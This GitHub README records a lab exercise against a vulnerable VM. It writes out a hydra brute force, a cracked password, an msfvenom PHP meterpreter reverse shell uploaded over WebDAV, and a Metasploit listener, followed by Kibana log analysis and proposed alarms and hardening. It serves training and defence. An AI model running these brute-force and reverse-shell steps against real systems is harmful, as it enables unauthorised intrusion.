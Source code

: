 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

 # Red Team
- `Ifconfig` to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- `Netdiscover -r 192.168.1.255/16` Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of `192.168.1.1 , 192.168.1.100 and 192.168.1.105.`
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that `192.168.1.105` ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.
 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
- And while exploring through the files we see an important directory being mentioned by the name of a `secret_folder`. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found `192.168.1.105/company_folders/secret_folder` it then shows a login prompt meant for “Ashton” only. 

   ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder` command. 
![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory `dav://192.168.1.105/webdav/` using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is `linux4u`
    ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being `msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php`

![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
 ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - Msfconsole -q
   - Use exploit/multi/handler
   - Set payload php/meterpreter/reverse_tcp 
      - (same payload script as the one we copied to the shared directory)
   - Set LHOST 192.168.1.90
      - Ip of machine we want to listen on 
   - Set LPORT 4444
      - Port we want to listen on
   - Show options 
      - To see if all the settings we had set are correct
   - Run
      - To execute the listening process
 
 ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory `dav://192.168.1.105/webdav` which then after will then open up meterpreter on our host machine to show that we have now established connection 
![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like `getuid`. We can also open up a shell terminal if needed by using the command `shell`.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
- Blocking the Port Scan
  - Alarm
    - An alert to be sent to the team for a 1000+ port connections within a hour
  - System Hardening 
    - To run multiple port scans to see what ports are being opened and if any are being used maliciously
    - To make sure Firewall is up to date and to diminish any connections to the host

- Finding the Request for the Hidden Directory
  - Alarm
    - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
    - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
  - System Hardening
    - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
    - To make a whitelist to people who can and cant use these files and directories

- Mitigation: Preventing Brute Force Attacks
  - Alarm
    - I would implement a failed login alert to show a certain amount of times the login has failed 
    - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
    - If there is more than 5 failed login attempts the alarm would be triggered
  - System Hardening
    - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
    - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

- Mitigation: Detecting the WebDav Connection
  - Alarm
    - An alert would be made to send the IP addresses trying to get access to webdav  
  - System Hardening
    - To whitelist certain IP addresses so only certain machines can access WebDav

- Mitigation: Identifying Reverse shell Uploads
  - Alarm
    - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
  - System Hardening
    - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
    - To whitelist IP addresses that can access the webdav folder 


